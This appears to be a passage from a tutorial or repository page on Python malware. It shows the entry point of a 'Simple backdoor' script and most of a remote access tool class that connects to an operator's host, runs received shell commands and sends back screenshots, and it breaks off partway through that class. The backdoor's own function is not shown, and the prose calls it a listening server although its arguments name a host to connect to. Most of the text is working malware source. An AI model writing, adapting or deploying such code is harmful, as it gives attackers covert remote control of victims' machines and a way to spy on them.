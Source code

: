 ```python
def main():
    # Setting ASCII art
    ascii_art = figlet_format('Backdoor', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple backdoor written on Python.')
    parser.add_argument('-h', '--host', type=str, required=True, help='Host IP to receive connection.')
    parser.add_argument('-p', '--port', type=int, required=True, help='Port to receive the connection.')
    args = parser.parse_args()

    # Calling the function
    start_backdoor(host=args.host, port=args.port)


if __name__ == '__main__':
    main()
```

This script creates a simple server that listens for incoming connections. When a connection is established, it allows the remote user to execute shell commands on the host system. This type of backdoor could be used by attackers to maintain persistent access to a compromised system.

##### Remote Access Tools (RATs)
---

A Remote Access Tool (RAT) is a type of malware that provides comprehensive control over a target system. Here's a basic example of a RAT-like program in Python:

```python
import socket
import subprocess
import os
import pyautogui
from pyfiglet import figlet_format
import argparse


class RAT:
    def __init__(self, host, port):
        self.host = host
        self.port = port
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    def connect(self):
        self.socket.connect((self.host, self.port))

    def execute_command(self, command):
        return subprocess.check_output(command, shell=True)

    def take_screenshot(self):
        screenshot = pyautogui.screenshot()
        screenshot.save("screenshot.png")
        return open("screenshot.png", "rb").read()

    def run(self):
        while True:
            command = self.socket.recv(1024).decode()
            if command.lower() == "exit":
                break
            elif command.lower() == 'screenshot':
                self.socket.send(self.take_screenshot())
```